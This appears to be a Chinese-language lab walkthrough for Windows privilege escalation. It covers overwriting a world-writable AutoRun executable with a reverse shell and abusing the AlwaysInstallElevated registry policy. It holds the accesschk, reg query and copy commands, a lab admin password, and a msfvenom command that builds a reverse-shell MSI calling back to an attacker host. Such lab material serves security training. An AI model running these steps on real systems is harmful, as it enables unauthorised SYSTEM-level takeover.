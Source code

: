 ### 使用 accesschk.exe，請注意其中一個 AutoRun 可執行文件對每個人都是可寫的：
```

C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

### 複製您創建的 reverse.exe 可執行文件並用它覆蓋 AutoRun 可執行文件 ：

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y

```
* 在 Kali 上啟動一個偵聽器，然後重新啟動 Windows VM。打開一個新的 RDP 會話以觸發以管理員權限運行的反向 shell。您不必通過身份驗證來觸發它，但是如果有效載荷沒有觸發，請以管理員身份登錄 (admin/password123) 來觸發它。請注意，在現實世界中，您必須等待管理員自己登錄！

```
rdesktop 10.10.234.190
```
* user 用戶 restart 需要等待一下。在使用admin連接一次。





## 註冊表 - AlwaysInstallElevated


* windows有一個系統進程MSIEXEC，用於安裝Windows Installer安裝包，AlwaysInstallElevated是一個組策略配置，如果啟用，那麼將允許普通用戶以SYSTEM權限運行msi文件進行安裝。如果對方機器恰好開啟，我們就可以利用此缺陷提權。






* 利用AlwaysInstallElevated提權是一個2017年公開的技術，Metasploit和PowerUp都提供了利用方法



###  在註冊表中查詢 AlwaysInstallElevated 鍵：

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

* 這兩個鍵都設置為 1 (0x1)。代表開啟






### 在 Kali 上，使用 msfvenom 生成反向 shell Windows Installer (reverse.msi)。 相應地更新 LHOST IP 地址：

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.70.197  LPORT=53 -f msi -o reverse.msi

```
